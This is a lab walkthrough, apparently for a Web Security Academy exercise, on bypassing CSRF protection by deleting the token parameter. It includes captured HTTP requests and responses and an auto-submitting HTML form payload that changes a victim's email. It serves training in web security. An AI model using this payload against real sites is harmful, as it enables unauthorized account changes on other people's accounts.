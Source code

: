 _Request body:_

```
email=email@email.com&csrf=[[...token...]]
```

Right-click the request and select __Send to Repeater__. In the repeater, notice, if you change the CSRF token in the request body and resend the request it will be rejected. 

_Response:_

```
HTTP/2 400 Bad Request
Content-Type: application/json; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 20

"Invalid CSRF token"
```

Now delete the `csrf` parameter in the request body entirely, including its value and resend the request.

_Request body:_

```
email=email@email.com
```

The request was accepted this time.

_Response:_

```
HTTP/2 302 Found
Location: /my-account?id=wiener
X-Frame-Options: SAMEORIGIN
Content-Length: 0

```

Now open the __Context Menu__ (top right corner of the request pane in __Repeater__; three dashes) and click "Copy URL". Use this URL in the following HTML template (`<form>` tag `action` attribute):

> NOTE: edit the second line, attribute `name` should have a value `email` and attribute `value` should have an email to replace the existing email address.

```
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="$param1name" value="$param1value">
</form>
<script>
    document.forms[0].submit();
</script>
```

Go to exploit server and paste the resulting HTML in the "Body" section of the form and click "Store". 

Click "View exploit" to see if it works on your account. You will be redirected to a page where you'll see that your email has been changed. 
